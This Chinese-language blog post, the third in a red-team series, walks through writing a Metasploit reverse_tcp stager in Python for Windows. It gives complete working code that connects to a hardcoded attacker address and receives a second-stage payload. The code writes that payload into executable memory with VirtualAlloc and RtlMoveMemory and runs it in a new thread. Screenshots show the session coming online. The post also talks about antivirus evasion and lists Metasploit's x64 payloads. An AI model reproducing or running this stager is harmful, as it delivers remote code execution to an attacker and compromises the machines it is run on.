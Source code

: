 ```yaml
---
title: msf stagers开发不完全指北(三)
slug: msf-stagers-develop-3
date: 2020-06-28 13:43:00
tags:
- msf
- 红队
- 工具
categories:
- 开发
---
```


# 采用 Python 开发stagers

<!--more-->

之前的文章中我们讲到了如何使用 c 以及 golang 开发 stagers，这篇文章我将着眼于 python，探讨一下如何使用 python 实现相同的功能，也就是msf的 stagers。

## 环境

- OS: Windows 10
- Python: Python 3.7.7 (tags/v3.7.7:d7c567b08f, Mar 10 2020, 10:41:24) [MSC v.1900 64 bit (AMD64)] on win32

## 前情提要

这篇文章将是 windows reverse_tcp 相关的最后一节，让我们回忆一下之前写的文章中的流程原理，把 socket 文件描述符放入 edi 是为了传递给后面的 stages，让 stages 能够复用这个连接，所以我们有了 `mov edi, socketfd` 这一步。我们还需要取到tcp包的前四个字节，这四个字节是代表着后续 stages payload 的长度大小，获取到这个大小后，我们需要读取出指定大小的 tcp 包，然后就是把它当作 shellcode 看待，分配可读可写可执行内存，然后塞进去开始跑。

大致上流程理清楚了，我们开始用 Python 代码进行实现

## 实现细节

### 创建 tcp 连接

```python
address = ('192.168.174.136', 5555)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(address)
```

创建 tcp 连接没有什么好说的，不过这里还是需要注意的点是**把你的 payload 与 python 对应起来，比如32位payload 使用 32位 python，这点是比较重要的**

### 获取stages

```python
# 获取后续payload大小
payload_size = struct.unpack("<I", bytearray(s.recv(4)))[0]
# 设置flag接收全部数据
payload = s.recv(payload_size, socket.MSG_WAITALL)
```

这里是读取了头四个 byte 作为后续的 stages 接收长度，这里需要注意的点是 `socket.MSG_WAITALL`，这个 flag 表示从 socket 连接读取指定长度的数据包为止，不然可能造成 recv 不完全的情况，recv 默认是有长度限制的，或者自己用 for 来实现也可以。

### mov edi, socketfd

接下来就是把 socket 文件描述符放到 edi 里面去了

```python
# socket 文件描述符，为了edi调用，原理请查看 https://akkuman.cnblogs.com/p/12859091.html
socket_fd = struct.pack('<I', s.fileno())

# mov edi, socket_fd
operation = b'\xbf' + socket_fd

# 组装完整的payload
payload_with_edicall = operation + payload
```

socket 对象提供一个 fileno 方法来供我们获取到 socket 的文件描述符，获取到之后我们使用 struct 的 pack 方法给它按照小端做成一个4 byte的，构造出 `mov edi, socketfd` 对应的机器码，然后和我们之前获取到的 stages 进行拼接组装成一个完整的 payload

### 执行 stages

接下来就是像跑 shellcode 一样的活儿了

```python
shellcode = bytearray(payload_with_edicall)
# 设置VirtualAlloc返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
# 申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0),
    ctypes.c_int(len(shellcode)),
    ctypes.c_int(0x3000),
    ctypes.c_int(0x40)
)

# 放入shellcode
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buf,
    ctypes.c_int(len(shellcode))
)
# 创建一个线程从shellcode防止位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.c_uint64(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)

# 等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```

这里的 `ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64` 是必要的，至少在我这里的环境是这样，需要指定一个返回值的类型。然后我们通过 `VirtualAlloc` 申请一块可读可写可执行的内存，然后把我们的 payload 放到这块内存区域里面去，新开辟一个线程从这块内存的起始地址开始运行。



当然，其实实现执行 shellcode 的方式多种多样，这里采用你自己喜欢的一种方式即可。



## 结果截图

![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/0001d74664291231760baa1db6a86dbf..png)

![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/ac61f533cd546a89c922694cff428e7e..png)

可以看到能够成功上线执行命令

## 告一段落

这三篇我以 windows 的 reverse_tcp 的 payload 为例，以三个不同的语言视角进行了具体的实现，具体功效可能需要看个人自行发挥了。



接下来我会慢慢抽时间继续把这个 stagers 开发不完全指北系列继续下去，但是可能之后如果精力有限的话不会给出多个语言的实现，我会尽量把具体的原理细节说清楚，交由大家自行实现，下面开始写的话，可能会写 msf reverse_http 相关的，毕竟这个是 cs 中的主力，缺点除了需要每次心跳时才能返回数据，不够及时之外，其实还是一个很不错的东西，也会穿插着提到一些如何使用这些东西扩展 C2，使我们的免杀更具灵活性。



其实另一方面来说，面对杀软如果对网络有实时监控的话，这种直接传回 stages 的文件特征比较明显，我也会在我研读源码的过程中把一些成果丢出来，权当给大家抛砖引玉。

比如 msf 中现有的 windows x64 的 payload 有这些

```bash
msf5 exploit(multi/handler) > set payload windows/x64/
set payload windows/x64/exec                            set payload windows/x64/meterpreter_bind_named_pipe     set payload windows/x64/shell/reverse_tcp_uuid
set payload windows/x64/loadlibrary                     set payload windows/x64/meterpreter_bind_tcp            set payload windows/x64/shell_bind_tcp
set payload windows/x64/messagebox                      set payload windows/x64/meterpreter_reverse_http        set payload windows/x64/shell_reverse_tcp
set payload windows/x64/meterpreter/bind_ipv6_tcp       set payload windows/x64/meterpreter_reverse_https       set payload windows/x64/vncinject/bind_ipv6_tcp
set payload windows/x64/meterpreter/bind_ipv6_tcp_uuid  set payload windows/x64/meterpreter_reverse_ipv6_tcp    set payload windows/x64/vncinject/bind_ipv6_tcp_uuid
set payload windows/x64/meterpreter/bind_named_pipe     set payload windows/x64/meterpreter_reverse_tcp         set payload windows/x64/vncinject/bind_named_pipe
set payload windows/x64/meterpreter/bind_tcp            set payload windows/x64/pingback_reverse_tcp            set payload windows/x64/vncinject/bind_tcp
set payload windows/x64/meterpreter/bind_tcp_rc4        set payload windows/x64/powershell_bind_tcp             set payload windows/x64/vncinject/bind_tcp_rc4
set payload windows/x64/meterpreter/bind_tcp_uuid       set payload windows/x64/powershell_reverse_tcp          set payload windows/x64/vncinject/bind_tcp_uuid
set payload windows/x64/meterpreter/reverse_http        set payload windows/x64/shell/bind_ipv6_tcp             set payload windows/x64/vncinject/reverse_http
set payload windows/x64/meterpreter/reverse_https       set payload windows/x64/shell/bind_ipv6_tcp_uuid        set payload windows/x64/vncinject/reverse_https
set payload windows/x64/meterpreter/reverse_named_pipe  set payload windows/x64/shell/bind_named_pipe           set payload windows/x64/vncinject/reverse_tcp
set payload windows/x64/meterpreter/reverse_tcp         set payload windows/x64/shell/bind_tcp                  set payload windows/x64/vncinject/reverse_tcp_rc4
set payload windows/x64/meterpreter/reverse_tcp_rc4     set payload windows/x64/shell/bind_tcp_rc4              set payload windows/x64/vncinject/reverse_tcp_uuid
set payload windows/x64/meterpreter/reverse_tcp_uuid    set payload windows/x64/shell/bind_tcp_uuid             set payload windows/x64/vncinject/reverse_winhttp
set payload windows/x64/meterpreter/reverse_winhttp     set payload windows/x64/shell/reverse_tcp               set payload windows/x64/vncinject/reverse_winhttps
set payload windows/x64/meterpreter/reverse_winhttps    set payload windows/x64/shell/reverse_tcp_rc4
```

我觉得其实是可以挑出一些自己感兴趣的进行研究